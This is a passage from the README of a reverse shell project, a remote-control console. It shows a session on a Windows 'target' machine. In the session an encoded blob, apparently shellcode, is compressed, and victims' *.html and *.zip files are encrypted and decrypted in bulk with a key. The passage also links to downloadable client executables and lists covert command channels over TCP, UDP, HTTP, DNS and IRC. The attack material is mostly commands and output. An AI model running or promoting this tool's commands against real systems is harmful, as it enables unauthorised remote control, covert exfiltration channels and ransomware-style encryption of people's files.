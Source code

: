 ```
WIN-TARGET@USER-TARGET:C:\Users\USER-TARGET\Documents$ shellcode_compress SDHJSIHp3f///0iNBe////9Iu9MZW06IcMOdSDFYJ0gt+P///+L0L1HYqniYA53TGRofySCRzIVRapztOEjPs1HQHJA4SM/zUdA82DjMKplTFn9BOPJdfyU6Mopc49wS0FYPibEhcIFYCgYDIuMWkSUTT1j7QxXTGVsGDbC3+psYix4DONvZWFl7B4mgIMub5pIPA0RL1dLPFn9BOPJdf1iah4Uxwlzr+S6/xHOPudtcYp/9qJvZWFl/B4mgpdxYFRMKAzDf1NLJGsWM+IucA1gDD9AumseSQRoXySqLHj85Ghx3kJvcikMTxZqZlGIs5gYGMnHDndMZW06IOE4Q0hhbTsnK8ha8nqSbM5Det9lY4egdzV5iBlHYiqBMxeHZmaCu/XV42sBrNCSIKYIUCeaOLekcoLO2YT5OiHDDnQ==

WIN-TARGET@USER-TARGET:C:\Users\USER-TARGET\Documents$ encrypt_file test.html
[!] Invalid command detected for 'encrypt_files' command. Minimum 2 arguments are required.
[*] USAGE: encrypt_files [key] [filename1] [filename2] ... [filenameX]
WIN-TARGET@USER-TARGET:C:\Users\USER-TARGET\Documents$ encrypt_file qwerty test.html
Encryption is running...
[*] 1 childs process are running...
WIN-TARGET@USER-TARGET:C:\Users\USER-TARGET\Documents$ decrypt_file qwerty test.html
Decryption is running...
[*] 1 childs process are running...
WIN-TARGET@USER-TARGET:C:\Users\USER-TARGET\Documents$ encrypt_files qwerty *.html *.zip
Encryption is running...
[*] 2 childs process are running...
WIN-TARGET@USER-TARGET:C:\Users\USER-TARGET\Documents$ decrypt_files qwerty *.html *.zip
Decryption is running...
[*] 2 childs process are running...
WIN-TARGET@USER-TARGET:C:\Users\USER-TARGET\Documents$
```

## Screenshots

![ReverseShell](https://mauricelambert.github.io/info/python/security/ReverseShell.png "ReverseShell")

## Contributions

You are welcome to contribute ! Beginner, intermediate and advanced developpers can contribute to this repository. Python developpers, system administrators, network administrators, web developpers and compiled language developpers can contribute. See the [issues](https://github.com/mauricelambert/ReverseShell/issues) to know what we need.

## Links

 - [Github Page](https://github.com/mauricelambert/ReverseShell)
 - [Pypi](https://pypi.org/project/ReverseShell/)
 - [Documentation](https://mauricelambert.github.io/info/python/security/ReverseShell.html)
 - [Executable](https://mauricelambert.github.io/info/python/security/ReverseShell.pyz)
 - [Windows Executable](https://mauricelambert.github.io/info/python/security/ReverseShell.exe)
 - [Binaries shell clients](https://github.com/mauricelambert/ReverseShell/releases/latest)

## Help

```text
usage: ReverseShell.py [-h] [--udp | --tcp | --multi-tcp] [--http | --dns | --irc] [--no-color] [--key KEY] [--cert CERT] [--private PRIVATE] [--ip IP]
                       [--port PORT] [--encoding ENCODING] [--ssl] [--no-timeout]

Advanced reverse shell console.

options:
  -h, --help            show this help message and exit
  --udp, -u             Use UDP socket.
  --tcp, -t             Use TCP socket.
  --multi-tcp, -T       Create TCP socket for each command and responses.
  --http, -H            Use HTTP requests and responses.
  --dns, -d             Use DNS requests and responses.
  --irc, -I             Use IRC requests and response.
```